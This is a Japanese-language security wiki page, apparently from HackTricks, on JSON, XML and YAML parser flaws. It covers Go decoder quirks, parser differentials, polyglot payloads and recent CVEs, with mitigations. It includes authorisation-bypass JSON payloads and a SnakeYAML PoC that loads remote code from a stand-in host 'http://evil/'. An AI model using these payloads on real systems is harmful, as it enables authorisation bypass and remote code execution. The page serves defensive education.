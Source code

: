 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

以下の問題はGoのJSONで検出されましたが、他の言語にも存在する可能性があります。これらの問題は [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/) で公開されました。

GoのJSON、XML、およびYAMLパーサーには長年にわたる不整合や安全でないデフォルト設定の履歴があり、これらは**bypass authentication**、**escalate privileges**、または**exfiltrate sensitive data**の悪用につながり得ます。


### (Un)Marshaling Unexpected Data

目的は、攻撃者が機密フィールド（例: `IsAdmin`, `Password`）の読み書きを可能にするstructを悪用することです。

- Example Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- 一般的な脆弱性

1. **Missing tag** (タグがない = フィールドはデフォルトで引き続きパースされる):
```go
type User struct {
Username string
}
```
ペイロード:
```json
{"Username": "admin"}
```
2. **`-` の不適切な使用**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ フィールドが (un)marshaled されるのを防ぐ正しい方法：
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### パーサの差異

目的は、異なるパーサが同じペイロードを異なって解釈する点を悪用して認可を回避することで、例えば次のような事例がある:
- CVE-2017-12635: Apache CouchDB bypass（重複キーを悪用）
- 2022: Zoom 0-click RCE（XMLパーサの不整合による）
- GitLab 2025 SAML bypass（XMLの特異な挙動を利用）


**1. 重複フィールド:** Go's `encoding/json` は **最後** のフィールドを採用する。
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
他のパーサ（例: Java’s Jackson）は**最初**を採ることがあります。

**2. 大文字小文字を区別しない:**
Goは大文字小文字を区別しません:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Unicodeのトリックも有効です:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. サービス間のミスマッチ:**
Imagine:
- Proxy が Go で実装されている
- AuthZ service が Python で実装されている

Attacker が送信する:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python は `UserAction` を見て許可する
- Go は `AdminAction` を見て実行する


### データフォーマットの混同 (Polyglots)

目的は、フォーマット（JSON/XML/YAML）を混在させるシステムや、パーサーエラーでフェイルオープンするシステムを悪用することです。例:

- **CVE-2020-16250**: HashiCorp Vault は、STS が XML の代わりに JSON を返したあとに JSON を XML パーサで解析した。

攻撃者が制御できるもの:
- `Accept: application/json` ヘッダー
- JSON ボディの部分的な制御

Go の XML パーサはそれを**それでも**解析し、注入された識別情報を信頼した。

- 作成した payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
結果:
- **Go JSON** パーサー: `Action_2` (大文字小文字を区別しない + 後勝ち)
- **YAML** パーサー: `Action_1` (大文字小文字を区別する)
- **XML** パーサー: 文字列内の "Action_3" を解析する

---

## 注目すべきパーサーの脆弱性 (2023-2025)

> 以下の公開悪用可能な問題は、不安全なパースがGoだけの問題ではなく複数の言語にまたがる問題であることを示している。

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* 影響対象: `org.yaml:snakeyaml` < **2.0** (Spring-Boot、Jenkins などで使用)。
* 根本原因: `new Constructor()` が任意の Java クラスをデシリアライズし、gadget chains を経て remote-code execution に至る可能性がある。
* One-liner PoC (脆弱なホストで電卓を開く):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* 修正 / 緩和:
1. **≥2.0 へアップグレード**（デフォルトで `SafeLoader` を使用）。
2. 古いバージョンでは、明示的に `new Yaml(new SafeConstructor())` を使用する。

### libyaml Double-Free (CVE-2024-35325)

* 影響: `libyaml` ≤0.2.5（多くの言語バインディングで利用される C ライブラリ）。
* 問題: `yaml_event_delete()` を2回呼ぶとダブルフリーが発生し、攻撃者はそれを DoS や、場合によっては heap exploitation に利用できる。
* 状況: Upstream は “API misuse” として却下したが、Linux ディストリビューションは防御的にポインタを null にして解放する修正版 **0.2.6** を出荷した。

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* 影響: Tencent **RapidJSON** の commit `8269bc2` より前（<1.1.0-patch-22）。
* バグ: `GenericReader::ParseNumber()` 内の未チェックの算術により、攻撃者は巨大な数値リテラルを作成してラップアラウンドを起こしヒープを破損させることができる — 最終的に、生成されたオブジェクトグラフが認可判定に使われた場合に権限昇格を可能にする。

---

### 🔐 緩和策（更新）

| Risk                                | Fix / Recommendation                                      |
|-------------------------------------|------------------------------------------------------------|
| Unknown fields (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Duplicate fields (JSON)             | ❌ stdlib に修正なし — [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) で検証 |
| Case-insensitive match (Go)         | ❌ 修正なし — struct タグを検証 + 入力を事前に正規化する    |
| XML garbage data / XXE              | 強化されたパーサを使用する（`encoding/xml` + `DisallowDTD`）     |
| YAML unknown keys                   | `yaml.KnownFields(true)`                                   |
| **Unsafe YAML deserialization**     | SafeConstructor を使用 / SnakeYAML ≥2.0 にアップグレード            |
| libyaml ≤0.2.5 double-free          | **0.2.6** へアップグレード、またはディストリビューションでの修正版を使用            |
| RapidJSON <patched commit           | 最新の RapidJSON（≥July 2024）でコンパイルする              |

## 関連

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## 参考文献

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
